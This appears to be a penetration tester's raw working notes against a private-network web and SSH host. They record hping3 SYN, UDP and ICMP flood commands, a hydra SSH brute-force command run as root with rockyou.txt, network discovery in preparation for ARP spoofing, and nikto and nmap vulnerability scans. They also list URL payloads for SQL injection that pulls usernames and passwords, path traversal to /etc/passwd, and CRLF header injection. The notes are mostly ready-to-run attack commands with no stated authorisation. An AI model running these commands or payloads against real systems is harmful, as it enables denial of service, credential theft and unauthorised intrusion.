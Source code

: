 - **WWW-Mechanize/1.34**: A Perl module that allows automating web browsing (e.g., filling forms, clicking buttons).

**127 names had status 200**: This means that 127 virtual host names (subdomains or websites hosted on this server) responded with an HTTP status code of 200 (OK). This indicates that these virtual hosts are correctly configured and available.
The web server is running Apache (version 2.4.57)

tried:
sudo hping3 --icmp --frag --data 65536 10.1.22.121

 ping -s 65500 10.1.22.121
 returns same amount in response

syn flood:
sudo hping3 -S -p 80 --flood 10.1.22.121
sudo hping3 --udp -p 80 --flood 10.1.22.121

nmap -sV -Pn --script=vuln 10.1.22.121



bruteforce attempt on ssh:
openssh on port 2222 
hydra -l root -P rockyou.txt -s 2222 10.1.22.121 ssh

service seems to go down when attempting bruteforce attack
may be possible using low and slow methodology 
around 250
comes back-up later 

perform arp spoofing:
sudo nmap -sn 10.1.22.121
sudo nmap -sn 10.1.22.0/24
sudo nmap -sP 10.1.22.0/24
sudo nmap -sn -sS -O 10.1.22.0/24
sudo nmap -O 10.1.22.0/24
sudo arp-scan 10.1.22.0/24

sudo netdiscover -r 10.1.22.0/24

create in python
inspect using wireshark

scanning:
nikto -h http://10.1.22.121 -Tuning 1,2,3,4,5,6,7,8
nikto -h http://10.1.22.121 -no404
nikto -h http://10.1.22.121 -Plugins ssl,headers
nikto -h http://10.1.22.121 -id "Mozilla/5.0"

http://10.1.22.121/?mod=node&nid=some_thing&op=view
retrieves code 200
checking different inputs:
/?mod=node&nid=1&op=view
/?mod=node&nid=1000&op=view
/?mod=node&nid=-1&op=view
/?mod=node&nid=999999&op=view
/?mod=node&nid=1' --&op=view
/?mod=node&nid=1 OR 1=1 --&op=view
/?mod=node&nid=1' AND 1=1 --&op=view
/?mod=node&nid=1' UNION SELECT NULL, username, password FROM users --&op=view
/?mod=node&nid=1&op=view HTTP/1.1
/?mod=node&nid=../../../../../etc/passwd&op=view
/?mod=node&nid=1&op=view
/?mod=node&nid=1&op=view&debug=true
/?mod=node&nid=1%0d%0aSet-Cookie: malicious=evil; op=view
